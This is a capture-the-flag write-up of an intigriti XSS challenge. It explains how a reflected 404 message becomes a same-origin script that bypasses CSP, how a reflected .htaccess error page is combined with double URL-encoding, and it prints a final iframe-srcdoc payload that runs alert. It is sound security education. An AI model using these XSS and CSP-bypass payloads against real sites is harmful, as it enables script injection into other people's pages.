



## Description

Every once in a while, [intigriti](https://www.intigriti.com/) drops a new XSS challenge. (Follow them on [Twitter](https://twitter.com/intigriti) to know when the next one drops). The challenge had a pretty straightforward description:

> Find a way to execute arbitrary javascript on this page and win a Burp Suite Pro License.

With the following conditions:

* Should work on the latest version of Firefox or Chrome
* Should bypass CSP
* Should execute the following JS: alert(document.domain)
* Should be executed on this page, on this domain
* Should work without user interaction (no self XSS) or MiTM

## Analysis

### Appearence & Behaviour



The website was very simple. It had one simple functionality, which was for the user to select the title of a slogan in a drop-down and then the whole slogan text would appear below the drop-down.

One can also notice that the location hash changed depending on the selection in the drop-down. Also, when loading the website with a correct hash, that slogan text would appear without user interaction.

### Source Code
Next, I looked at the source code. The HTML was very simple and had nothing interesting to exploit. However, it included the following script:

```js
var hash = document.location.hash.substr(1);
if(hash){
	displayReason(hash);
}
document.getElementById("reasons").onchange = function(e){
if(e.target.value != "")
	displayReason(e.target.value);
}

function reasonLoaded () {
	var reason = document.getElementById("reason");
	reason.innerHTML = unescape(this.responseText); //❶
}

function displayReason(reason){
	window.location.hash = reason;
	var xhr = new XMLHttpRequest();
	xhr.addEventListener("load", reasonLoaded);
	xhr.open("GET",`./reasons/${reason}.txt`); //❷
	xhr.send();
}
```
Here it starts getting interesting. `displayReason` is called with the location hash as parameter. It will then load a text file with the hash's name using xhr ❷ and finally `reasonLoaded` will be executed, which renders the content of that *unescaped* text file using *innerHTML* ❶.


Trying to load a file that doesn't exist (`https://challenge.intigriti.io/reasons/20.txt`) we get the following error:

```404 - 'File "20.txt" was not found in this folder.'```

It's interesting that the filename that doesn't exist gets reflected in the error message.


### HTTP Headers

When trying to execute XSS, it is important to know which CSP is set. The CSP header allows us to know what resources are possible to load. As a hacker this can "help" us reduce the attack surface. For this challenge, the CSP header is set to:

```content-security-policy: default-src 'self'```

This means, that no resources (scripts, images, ...) from other hosts can be loaded. Also we can't execute own inline scripts (`<script>alert(1)</script>`, `document.location=javascript:alert(1)`, ``). This leaves us with the only option to load js using `<scipt src="blub.js">` where `blub.js` is hosted on the same host as the website itself. So trying to load scripts from a server we control is useless.

Another interesting header to look at is the `X-Frame-Options` header. Here it is not set, meaning we could load the website inside an iframe. This can be useful sometimes to change the hash location during run-time without user interaction.

## Attack
OK, now that I gathered enough information, I started with the interesting part: the attack! :)

The code at ❶ is the only part where dynamic content is added to the website. So this has to be the sink where our payload needs to be written.

We found out in the analysis that the filename we try to gather gets reflected in the error message. Let's try to reflect our own html elements:

```
curl https://challenge.intigriti.io/reasons/%3Cimg%20src=x%3E.txt

404 - 'File "_3Cimg_20src=x_3E.txt" was not found in this folder.'
```

Huh, what happened here? They seem to filter the user input. Precisely, they replace all occurrences of `%` with `_`. Dang, we need `<` and `>` to reflect our own HTML. This is impossible without URL-encoding them. Maybe their filtering has some weak spots. Let's try double encoding, just to be sure:

```
curl https://challenge.intigriti.io/reasons/%253Cimg%2520src%253Dx%253E.txt

404 - 'File "_253Cimg_2520src_253Dx_253E.txt" was not found in this folder.'
```

Too bad, would have been too easy. But hey, even if I can't reflect my own html elements. Maybe I can use this reflection later for generating my own js code that is hosted on their site. `404 - 'File "%s" was not found in this folder.'` seems to be the static string. `404 -` is a valid js subtraction if we provide a correct right hand expression. As we control `%s`, maybe we can close the single quote before "File" and then execute our own js? Let's try:

```
curl "https://challenge.intigriti.io/reasons/';alert(1);a='"

404 - 'File "';alert(1);a='" was not found in this folder.'
```

Nice, they don't escape the single quote so we manage to generate our own valid javascript code!

Now I found a way to bypass the CSP by using `<script src="reasons/';alert(1);a='">` but I still have no way to include that script tag inside the HTML...

After playing around for a while, I tried to access `.htaccess` and to my surprise I received a different response than the typical `File was not found in this folder`:

```html
<!DOCTYPE  HTML  PUBLIC  "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess on this server.</p>
```

Hmm, maybe it's possible to reflect more than the file name with the query string: `./htacess?reflect`

```html
curl https://challenge.intigriti.io/.htaccess?reflect

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess?reflect on this server.</p>
```

Nice, let's try if we manage to reflect our own HTML here:

```html
curl https://challenge.intigriti.io/.htaccess?%3Cimg%20src=x%3E

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess?&lt;img src=x&gt; on this server.</p>
```

Dang, here they correctly html escape the `<` and `>`. But wait! In ❶ they use the `unescape`function before setting the innerHTML. So we should be able to double escape our payload and itshould get unescaped once by the script that shows the forbidden page and once again by the `unescape` call. Let's try it all out, by appending `.htaccess` with our double-encoded image tag to the location hash:

```https://challenge.intigriti.io/#.htaccess?%253Cimg%2520src%253Dx%253E```



What have we got here! Our own html on their page! Now that we have our 2 building blocks: Our own HTML and a CSP bypass, let's try to combine them:

```html
https://challenge.intigriti.io/#.htaccess?%253Cscript%2520src%253D%2522reasons%252F%2527%253Balert%25281%2529%253Ba%253D%2527%2522%253E%253C%252Fscript%253E

(the long encoded string is <script src="reasons/';alert(1);a='"></script> double url-encoded.)
```

But nothing happens... I completely forgot: `innerHTML` doesn't execute script tags anymore since HTML5. I know of some bypasses using `` but these were all inline scripts which got all blocked by the CSP... Maybe I can include an iframe with a script tag that will still execute using innerHTML?

```html
<iframe srcdoc="<script src=reasons/';alert(1);a='></script>"></iframe>
```

Double encoding it and appending it to `.htaccess`:

```https://challenge.intigriti.io/#.htaccess?%253Ciframe%2520srcdoc%253D%2522%253Cscript%2520src%253Dreasons%252F%2527%253Balert%25281%2529%253Ba%253D%2527%253E%253C%252Fscript%253E%2522%253E%253C%252Fiframe%253E```




## Lessons learned

- Even if you find something that isn't quite useful yet, it might come in handy later
- Check and understand the CSP policy
- Double encoding to the rescue